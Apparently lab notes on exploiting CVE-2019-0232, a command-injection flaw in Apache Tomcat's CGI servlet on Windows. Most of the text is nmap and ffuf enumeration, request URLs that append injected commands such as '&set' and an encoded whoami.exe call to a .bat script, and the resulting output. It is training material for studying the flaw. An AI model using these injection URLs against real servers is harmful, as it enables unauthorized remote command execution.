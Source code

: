 # Attacking Tomcat CGI

CVE-2019-0232 is a critical security issue that could result in remote code execution. 
This vulnerability affects Windows systems that have the enableCmdLineArguments feature enabled. 

Versions 9.0.0.M1 to 9.0.17, 8.5.0 to 8.5.39, and 7.0.0 to 7.0.93 of Tomcat are affected

The CGI Servlet is a vital component of Apache Tomcat that enables web servers to communicate with external applications beyond the Tomcat JVM.

In essence, a CGI Servlet is a program that runs on a web server, such as Apache2, to support the execution of external applications that conform to the CGI specification. It is a middleware between web servers and external information resources like databases.

The enableCmdLineArguments setting for Apache Tomcat's CGI Servlet controls whether command line arguments are created from the query string.
If set to true, the CGI Servlet parses the query string and passes it to the CGI script as arguments.

Examples :
http://example.com/cgi-bin/booksearch.cgi?action=title&query=the+great+gatsby
http://example.com/cgi-bin/booksearch.cgi?action=author&query=fitzgerald

On Windows systems because the CGI Servlet fails to properly validate the input from the web browser before passing it to the CGI script :

http://example.com/cgi-bin/hello.bat?&dir

## Enumeration

nmap -p- -sC -Pn 10.129.204.227 --open 

8080/tcp  open  http-proxy
|_http-title: Apache Tomcat/9.0.17
|_http-favicon: Apache Tomcat
47001/tcp open  winrm

## Finding a CGI script

### Fuzzing Extentions - .CMD

ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd

### Fuzzing Extentions - .BAT

ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat

[Status: 200, Size: 81, Words: 14, Lines: 2, Duration: 234ms]
    * FUZZ: welcome


http://10.129.204.227:8080/cgi/welcome.bat
Welcome to CGI, this section is not functional yet. Please return to home page.


## Exploitation

http://10.129.204.227:8080/cgi/welcome.bat?&dir

If whoami does not work, use &set command to check the PATH variable :

http://10.129.204.227:8080/cgi/welcome.bat?&set

Welcome to CGI, this section is not functional yet. Please return to home page.
AUTH_TYPE=
COMSPEC=C:\Windows\system32\cmd.exe
CONTENT_LENGTH=
CONTENT_TYPE=
GATEWAY_INTERFACE=CGI/1.1
HTTP_ACCEPT=text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
HTTP_ACCEPT_ENCODING=gzip, deflate
HTTP_ACCEPT_LANGUAGE=en-US,en;q=0.5
HTTP_HOST=10.129.204.227:8080
HTTP_USER_AGENT=Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.JS;.WS;.MSC
PATH_INFO=

PTH variable is unset so :

http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe

## LAB

nmap -p- -sC -Pn 10.129.205.30 --open 

8080/tcp  open  http-proxy
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.17



ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.205.30:8080/cgi/FUZZ.bat

welcome                 [Status: 200, Size: 81, Words: 14, Lines: 2, Duration: 150ms]


http://10.129.205.30:8080/cgi/welcome.bat

Welcome to CGI, this section is not functional yet. Please return to home page.

http://10.129.48.108:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe


http://10.129.48.108:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe

feldspar\omen

